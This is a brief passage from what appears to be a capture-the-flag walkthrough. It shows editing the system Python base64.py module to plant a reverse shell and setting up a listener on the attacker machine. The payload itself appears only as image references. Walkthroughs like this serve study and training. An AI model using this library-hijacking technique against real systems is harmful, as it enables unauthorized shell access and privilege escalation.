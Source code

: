 ![](revshell.png)

Let's edit the `base64` Python3 module and set up a listener on the attacker machine

```
valley@valley:~$ nano /usr/lib/python3.8/base64.py
```

![](base64.png)
